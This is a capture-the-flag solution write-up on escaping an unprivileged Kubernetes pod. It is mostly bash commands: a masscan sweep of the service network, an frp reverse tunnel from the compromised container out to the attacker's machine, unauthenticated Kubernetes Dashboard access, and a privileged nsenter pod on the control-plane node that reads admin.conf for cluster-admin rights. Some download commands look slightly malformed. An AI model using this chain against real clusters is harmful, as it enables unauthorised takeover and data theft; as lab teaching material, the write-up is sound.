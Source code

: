 # CTF Solution

Don't peek if your are still doing the CTF!

First we want to break out the Clusters. This pod is not privileged. We have found a Service Account but we don't know what to do with it. Let us see if we find something on the Network.

## get service ip

Let us start with the Service Network. For that we can check the arbitrary service kubernetes.svc.local which is available in every namespace

```bash
dig kubernetes
```

Now we are ready to scan the network of this svc. We know that it is small so let's start with /24 and some typical ports. We use `masscan` which is already installed. But you could use any network scanner:

```bash
masscan -p80,22,443 10.96.0.0/24
```

## Connect through Backtunnel and proxy

Hey we found a host running HTTP, let us check this service:

```bash
curl 10.96.0.99
```

Nice a Kubernetes Dashboard, let us connect to it using our local Brower and a bit of proxy magic

### start proxy to tunnel to web through ssh

We use a changed version of [this example](https://github.com/fatedier/frp?tab=readme-ov-file#access-your-computer-in-a-lan-network-via-ssh).

Download and untar frps on your local VM (in annother terminal)

```bash
mkdir frps
curl -s-LO https://github.com/fatedier/frp/releases/download/v0.61.0/frp_0.61.0_linux_amd64.tar.gz | tar xvz - -C ./frps
cd frps
```

Now we start a local server which the client on our hacked container can call to:

```bash
cat <<\EOF >> my-frps.toml
bindPort = 7000
EOF
./frps -c my-frps.toml
```

So now in our hacked container terminal, also download frpc if it is not available:

```bash
mkdir frps
curl -s-LO https://github.com/fatedier/frp/releases/download/v0.61.0/frp_0.61.0_linux_amd64.tar.gz | tar xvz - -C ./frps
cd frps
```

and start calling our server

```bash
cat <<\EOF >> my-frpc.toml
serverAddr = "172.18.0.1" # if unsure about the ip connecting to your server use ip route get [hacked-container-ip]
serverPort = 7000

[[proxies]]
name = "web"
type = "tcp"
localPort = 80
localIP = "10.96.0.99"
remotePort = 8181
EOF
./frpc -c my-frpc.toml # start the client
```

If you did connect directly from your local machine use type
localhost:8181 in your browser
On the VM do
curl ifconfig.me
and use this IP Address (and realize you made this service public without authentication)!

## Kube-Dashboard

Wow you could click "Skip" and authenticate with the Service Account of the Dashboard itself.
Big mistake there. Now we browse around.

Change the namespace of the ones we know:
kube-system....no luck
default....no luck
kubernetes-dashboard...bingo
We see something, even the roles!
We can exectue hosts, let go for the crown-jewels: privileged pod on the control-plane.

Create this pod:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: nsenter
  name: nsenter
  namespace: kubernetes-dashboard
spec:
  containers:
  - command:
    - nsenter
    - --target
    - "1"
    - --mount
    - --uts
    - --ipc
    - --net
    - --pid
    - bash
    - -l
    - -c
    - "sleep infinity"
    image: docker.io/library/alpine
    imagePullPolicy: Always
    name: nsenter
    resources:
      limits:
        cpu: 100m
        memory: 256Mi
      requests:
        cpu: 100m
        memory: 256Mi
    securityContext:
      privileged: true
  dnsPolicy: ClusterFirst
  enableServiceLinks: true
  hostNetwork: true
  hostPID: true
  nodeName: kind-control-plane
  tolerations:
  - key: CriticalAddonsOnly
    operator: Exists
  - effect: NoExecute
    operator: Exists
EOF
```

and exec into it:

```bash
kubectl -n kubernetes-dashboard exec -it nsenter -- /bin/bash
```

There check if we have admin access now:

```bash
mkdir /mnt/hola

kubectl --kubeconfig /etc/kubernetes/admin.conf get ns
```

We are running as cluster admin and found the flag in the namespaces :-)
